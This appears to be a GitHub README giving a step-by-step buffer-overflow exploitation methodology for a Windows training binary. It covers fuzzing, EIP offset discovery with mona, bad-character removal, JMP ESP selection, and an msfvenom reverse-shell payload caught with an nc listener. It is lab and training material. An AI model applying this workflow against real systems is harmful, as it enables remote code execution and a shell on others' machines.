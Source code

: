 # bof
## Buffer Overflows

## Setup
* Open Immunity Debugger as admin
* In Immunity Debugger, set a working folder for mona:
```!mona config -set workingfolder c:\mona\%p```

## Fuzzing
* In Kali, create the fuzzer.py script and execute
* Note the size of the largest string sent
* Create a cyclic payload with pattern_create.rb, 400 bytes longer than crashing string size:
```$ msf-pattern_create -l <string+400>```
* Create exploit.py with the generated payload
		
## Control EIP
* Relaunch target.exe and run exploit.py
* In Immunity Debugger, run findmsp:
```!mona findmsp -distance <string+400>```
* Locate "EIP contains normal pattern: <> (offset <>)"
* Note EIP and ESP registers
* Update exploit.py with new values:
  * Set offset variable value in exploit.py to EIP offset value
  * Set payload to empty string
  * Set retn variable to 'BBBB'
* Relaunch target.exe and run exploit.py
* EIP should now be overwritten with 42424242

## Find Bad Characters
#### Iteration 0
* Create a bytearray in Mona:
```!mona bytearray -b "\x00"```

_Note location of 'bytearray.bin' (c:\mona\*\bytearray.bin)_

* In Kali, create and run a python script to generate bad characters:
```python
from __future__ import print_function

for x in range(1, 256):
    print("\\x" + "{:02x}".format(x), end='')

print()
```
* Update payload variable in exploit.py with badchars string

#### Iteration 1..n of n
* Reload target.exe and run exploit.py
* Note the ESP address
* Run !mona compare with the ESP address
```!mona compare -f C:\mona\*\bytearray.bin -a <ESPaddress>```
* Generate a new bytearray in Mona, excluding all badchars from the comparison result:
```!mona bytearray -b "\x00\x07\x2e\xa0"```
	
_Note: don't include sequential characters_

* Remove badchars from exploit.py:
```payload = "<all non-bad characters>"```
*  All bad characters identified when result: "Unmodified"

## Jump Point
* Run !mona jmp to identify all jump points with addresses that don't contain badchars:
```!mona jmp -r esp -cpb "\x00\x07\x2e\xa0\"```
* Choose a jmp address and update "retn" variable in exploit.py, reversing the endianness:
  * Mona address: "0x625011af"
  * Python address: "\xaf\x11\x50\x62"

## Generate Payload and NOPs
* Create a payload with msfvenom:
```msfvenom -p windows/shell_reverse_tcp LHOST=<ip> LPORT=<port> EXITFUNC=thread -b "\x00\x07\x08\x2e\x2f\xa0\xa1\xa2\xa3\xa4" -f py```
* Update payload of exploit.py with 'buf' variable definition and set payload = buf
* Set padding variable to 16 NOP bytes:
```padding = "\x90" * 16```

## Exploitation
* Start nc listener on :port
* Reload target.exe and exploit
